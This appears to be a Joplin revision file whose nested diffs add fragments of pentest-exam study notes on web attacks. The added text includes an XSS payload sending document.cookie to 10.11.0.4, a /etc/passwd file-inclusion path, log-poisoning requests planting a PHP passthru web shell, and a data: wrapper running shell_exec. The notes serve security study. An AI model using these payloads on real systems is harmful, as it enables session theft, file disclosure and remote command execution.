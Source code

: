 id: a0b61080d76942cda656fc34bc1c4043
parent_id: 
item_type: 1
item_id: 20f8588ed3fd47b7afd68e9f44bf0b68
item_updated_time: 1646016695893
title_diff: "[{\"diffs\":[[1,\"2c2eb3d719554184b77aaebaf67ab8e0\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 2c2eb3d719554184b77aaebaf67ab8e0\\\r\\\nparent_id: 25a155d6e25643a8b38321f077231846\\\r\\\nitem_type: 1\\\r\\\nitem_id: 1094d9f035074e3a8ef344a61a88cf5e\\\r\\\nitem_updated_time: 1643130371759\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\" Shell\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[1,\\\\\\\"> &lt;script&gt;new Image().src=’[http://10.11.0.4/hijacker.php](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)&lt;/script&gt; # Where hijacker.php is the webshell reverse shell\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[0,\\\\\\\"## Using\\\\\\\"]],\\\\\\\"start1\\\\\\\":17,\\\\\\\"start2\\\\\\\":17,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":213},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\" page.\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[1,\\\\\\\"Another way to deal with this problem is to add a question mark to your attack-string:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> http://example.com/page=../../../../../../etc/passwd?\\\\\\\\\\\\\n\\\\\\\\\\\\\nFor more information: [https://sushant747.gitbooks.io/total-oscp-guide/content/local\\\\\\\\\\\\\\\\_file\\\\\\\\\\\\\\\\_inclusion.html](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[0,\\\\\\\"# Log Fi\\\\\\\"]],\\\\\\\"start1\\\\\\\":2913,\\\\\\\"start2\\\\\\\":2913,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":353},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"2 80\\\\\\\\\\\\\n> \\\\\\\\\\\\\n\\\\\\\"],[1,\\\\\\\"> \\\\\\\\\\\\\\\\# 1st way To access log\\\\\\\\\\\\\n> \\\\\\\\\\\\\n\\\\\\\"],[0,\\\\\\\"> &lt;?p\\\\\\\"]],\\\\\\\"start1\\\\\\\":3556,\\\\\\\"start2\\\\\\\":3556,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":46},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"['cmd'\\\\\\\\\\\\\\\\]\\\\\\\"],[1,\\\\\\\") . '&lt;/pre&gt;';?>\\\\\\\"],[0,\\\\\\\"\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\#\\\\\\\"],[1,\\\\\\\" 2nd way\\\\\\\"],[0,\\\\\\\" To acce\\\\\\\"]],\\\\\\\"start1\\\\\\\":3641,\\\\\\\"start2\\\\\\\":3641,\\\\\\\"length1\\\\\\\":24,\\\\\\\"length2\\\\\\\":53},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"cess log\\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> GET /&lt;?php passthru($_GET\\\\\\\\\\\\\\\\['cmd'\\\\\\\\\\\\\\\\]); ?&gt; HTTP/1.1\\\\\\\\\\\\\n> Host: 192.168.1.102\\\\\\\\\\\\\n> Connection: close\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\# To error log\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> ```\\\\\\\\\\\\\n> GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1\\\\\\\\\\\\\n> Host: 192.168.1.102\\\\\\\\\\\\\n> Connection: close \\\\\\\\\\\\\n> ```\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\# Or you can use the Referer Parameter\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> ```\\\\\\\\\\\\\n> GET / HTTP/1.1\\\\\\\\\\\\\n> Referer: <? passthru($_GET[cmd]) ?>\\\\\\\\\\\\\n> Host: 192.168.1.159\\\\\\\\\\\\\n> Connection: close\\\\\\\\\\\\\n> ```\\\\\\\"],[0,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\nAfter \\\\\\\"]],\\\\\\\"start1\\\\\\\":3692,\\\\\\\"start2\\\\\\\":3692,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":409},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"ce=index\\\\\\\"],[-1,\\\\\\\" \\\\\\\"],[0,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\nHere y\\\\\\\"]],\\\\\\\"start1\\\\\\\":4567,\\\\\\\"start2\\\\\\\":4567,\\\\\\\"length1\\\\\\\":17,\\\\\\\"length2\\\\\\\":16},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"savefile.php\\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\n# PHP Wrappers\\\\\\\\\\\\\n\\\\\\\\\\\\\nCan be used to exploit Directory Traversal and Local File Inclusion Vulns\\\\\\\\\\\\\n\\\\\\\\\\\\\nOnce tested to be able to use PHP Wrappers, we can replace the text with some PHP code\\\\\\\\\\\\\n\\\\\\\\\\\\\n> http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec(\\\\\\\\\\\\\\\"dir\\\\\\\\\\\\\\\") ?>\\\\\\\\\\\\\n\\\\\\\\\\\\\nDepending if Windows or Linux, use the appropriate commands to get the output desired\\\\\\\"]],\\\\\\\"start1\\\\\\\":4778,\\\\\\\"start2\\\\\\\":4778,\\\\\\\"length1\\\\\\\":12,\\\\\\\"length2\\\\\\\":361}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-25T17:06:23.914Z\\\r\\\ncreated_time: 2022-01-25T17:06:23.914Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":2761}]"
metadata_diff: {"new":{"id":"20f8588ed3fd47b7afd68e9f44bf0b68","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016695885,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.371Z
created_time: 2022-02-28T02:54:22.371Z
type_: 13